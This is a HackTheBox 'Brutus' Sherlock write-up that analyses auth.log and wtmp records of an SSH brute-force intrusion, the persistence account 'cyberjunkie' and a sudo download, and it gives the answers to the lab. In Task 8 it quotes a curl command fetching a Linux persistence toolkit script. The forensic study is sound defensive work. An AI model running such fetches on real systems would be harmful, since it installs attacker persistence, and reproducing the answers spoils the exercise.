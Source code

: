 # [HackTheBox Sherlocks - Brutus](https://app.hackthebox.com/sherlocks/Brutus/play)
Created: 19/05/2024 13:42
Last Updated: 19/05/2024 14:48
* * *
![a93333357ea1b089a15b67e9f282f70f.png](..//resources/a93333357ea1b089a15b67e9f282f70f.png)

**Scenario:**
In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

* * *
>Task 1: Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?

![b1deff4f148d8d2c8ed975a95c07144f.png](..//resources/b1deff4f148d8d2c8ed975a95c07144f.png)
Lets start by finding those Failed password login in a short span of time which there is only this 1 IP has this pattern which mean its an IP address of the attacker
```
65.2.161.68
```

>Task 2: The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?

![f38d44512534f5a6f018c9044b2d685b.png](..//resources/f38d44512534f5a6f018c9044b2d685b.png)
Filtered for "Accept password" then look for first Accepted password log after those failed password log then you can see that automated tool successfully identified root's password
```
root
```

>Task 3: Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?

Successfully logged in as root from previous task was done by automated tool so we need to go to next successfully login
![9639df656e4e2f281424d95e48181b72.png](..//resources/9639df656e4e2f281424d95e48181b72.png)
We need to correlate timestamp here so lets filter our from auth.log using `cat auth.log | grep "Accept"` first then use `utmpdump wtmp | grep "root"` to print historical log of login and logout activity of root user

From the result you can see there is one there
```
2024-03-06 06:32:45
```

>Task 4: SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?

![239d64e9904c164aed7158fb7a797a58.png](..//resources/239d64e9904c164aed7158fb7a797a58.png)
Session number can be found on auth.log after session opened then we can use `cat auth.log | grep "root"` to get all logs related to root 

You can see that there are 2 sessions were opened by root, first is automated tool that was closed instantly and the second one is what we are looking for
```
37
```

>Task 5: The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?

![0800c3baf323f79b8e2255b6c7bba6e5.png](..//resources/0800c3baf323f79b8e2255b6c7bba6e5.png)
We need to find "useradd" log on auth.log
But to make it universal, I used`cat auth.log | grep "add"` to filter out all add event including groupadd too which you can see that the attacker added "cyberjunkie" user then added this user to "sudo" and "shadow" group
```
cyberjunkie
```

>Task 6: What is the MITRE ATT&CK sub-technique ID used for persistence?

![0e6263b2524d37baad2772f4815bfa89.png](..//resources/0e6263b2524d37baad2772f4815bfa89.png)
It is [Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)
```
T1136.001
```

>Task 7: How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

![02f1e11cd49104ec62c9733773f1766c.png](..//resources/02f1e11cd49104ec62c9733773f1766c.png)
Lets go grab session opened and session closed time of session 37 from auth.log
![47cb74e12400ee434d39718e2a4521c8.png](..//resources/47cb74e12400ee434d39718e2a4521c8.png)
Use time and date calculator, the different between 06:32:44 and 06:37:24 is 280 but its not the right answer so I checked out wtmp for more details if something is different
![2aa05a4a2069d6a4a6885b70f7f35c2c.png](..//resources/2aa05a4a2069d6a4a6885b70f7f35c2c.png)
So it turns out that it was not logged as 06:32:44 but 06:32:45 (1 second different), then the actual different should be 279 seconds
```
279
```

>Task 8: The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

![868091f31848ab9b395e198589a87f23.png](..//resources/868091f31848ab9b395e198589a87f23.png)
Use `cat auth.log | grep "sudo"` to filter out for "sudo" then we can see that this newly added user used curl to download [linper](https://github.com/montysecurity/linper) (Linux Persistence Toolkit) from github
```
/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

![3ef789dc55523add7f6523fef100bb7a.png](..//resources/3ef789dc55523add7f6523fef100bb7a.png)
* * *
